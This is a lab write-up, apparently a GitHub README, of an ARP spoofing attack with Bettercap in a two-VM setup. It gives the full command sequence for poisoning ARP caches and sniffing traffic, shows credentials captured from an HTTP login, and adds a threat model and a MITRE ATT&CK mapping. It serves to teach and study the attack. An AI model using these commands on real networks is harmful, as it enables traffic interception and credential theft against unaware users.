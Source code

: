 # Cybersecurity Report: ARP Spoofing Using Bettercap

## Introduction

BetterCAP is a powerful, flexible and portable tool created to perform various types of MITM attacks against a network, manipulate HTTP, HTTPS and TCP traffic in realtime, sniff for credentials and much more.

## Attack Setup

This report describes an ARP spoofing attack carried out in a controlled environment using two virtual machines:

 - Attacker: Kali Linux (with Bettercap)

 - Victim: Ubuntu Linux
   
   The goal of the experiment was to demonstrate how an attacker can intercept or manipulate traffic between two devices on a local network using ARP spoofing.

## What is ARP Spoofing?

ARP (Address Resolution Protocol) is used to map IP addresses to MAC (hardware) addresses on a local network. When a device wants to communicate with another, it sends an ARP request and the device with that IP replies with its MAC address.

ARP Spoofing is an attack where a malicious actor sends falsified ARP messages to a LAN. The attacker associates their MAC address with the IP address of another device (such as the gateway or a target machine), causing traffic to be misdirected.

![](images/body-id101-arp-poisoning.png)

## Purpose of ARP Spoofing

- Adversary-in-the-Middle (AitM): Intercept, read, or modify traffic.

- Denial of Service (DoS): Disrupt communication between devices.

- Credential theft or session hijacking: Capture sensitive data.

## Attack Execution

The following steps were performed using Bettercap on the Kali Linux VM to execute the ARP spoofing attack against the Ubuntu victim machine:

   **1. Launch Bettercap**

   
   
 ```bash
 sudo bettercap
```
![](images/1.png)

**2. Enable network discovery modules:**

```net.probe on```: Actively sends probes to discover live hosts.

```net.recon on```: Passively listens for ARP, DHCP, and DNS packets to map the network.

**3. List all discovered hosts:**

```bash
net.show
```
![](images/2.png)

192.168.112.99 is the IP address of the attacker's machine.

192.168.112.206 is the IP address of the gateway.

192.168.112.135 is the IP address of the victim's machine.



**4. Configure ARP spoofing:**

![](images/3.png)

- Set full-duplex mode so that traffic between victim and gateway flows through the attacker:

  ```bash
  set arp.spoof.fullduplex true
  ```
- Set the target IPs — the victim's IP and the default gateway IP:

  ```bash
  set arp.spoof.targets 192.168.112.206, 192.168.112.135
   ```

  
  
**5. Start the ARP spoofing attack:**

```bash
arp.spoof on
```

**6. Begin sniffing the intercepted packets:**

```bash
net.sniff on
```

This allows the attacker to observe and capture network traffic between the victim and the rest of the network in real-time.

![](images/4.png)

We can see here that the victim visited unicornitems.com

The victim logged on his account on the website.

![Login page on unicornitems.com](images/5.png)

The attacker can see the credentiales entered by the victim

![](images/6.png)

## Threat Model

The necessary Threat Model for this attack entails the adversary possessing the following capabilities:

 1. Local Network Access
      - The attacker must be connected to the same local network as the victim (e.g., same Wi-Fi or LAN segment).
      - This may be achieved through physical access (e.g., connecting to an open or weakly protected network) or remote compromise of a device already on the   network.

2. No Network Isolation or ARP Inspection

      - The network does not implement protections like:

           - Dynamic ARP Inspection (DAI)
           - Static ARP entries
           - Port security or VLAN isolation

3. Sufficient Privileges

      - The attacker has administrative (root) privileges on their machine to run tools like Bettercap and enable IP forwarding.

4. No Encryption on Target Services

      - For traffic to be interpretable (e.g., seeing credentials), the victim must be using insecure protocols (like HTTP, FTP, etc.).

## Observed Impact

- The victim continued to access the internet unaware of the interception.
- The attacker was able to:
     - See plaintext HTTP traffic.
     - Capture login credentials (on insecure services).
 

## MITRE ATT&CK model

This ARP spoofing attack aligns with the following techniques and tactics from the MITRE ATT&CK framework (Enterprise v11):

- **Tactic: Credential Access**
  - **Technique: Adversary-in-the-Middle: ARP Cache Poisoning (T1557.002)**  
    The attacker poisons the ARP cache to intercept network traffic and gain access to sensitive credentials.  
    

  - **Technique: Network Sniffing (T1040)**  
    Once in an adversary-in-the-middle position, the attacker captures unencrypted data, including usernames and passwords.  
    

- **Tactic: Collection**
  - **Technique: Adversary-in-the-Middle: ARP Cache Poisoning (T1557.002)**  
    The attacker's position in the network allows the collection of data such as session tokens, HTTP requests, and transmitted files.

 
## Credits

- I have drawn inspiration for this attack from [this](https://www.youtube.com/watch?v=xrK6KA9yzQE) video tutorial.
- https://attack.mitre.org/
- https://www.bettercap.org/
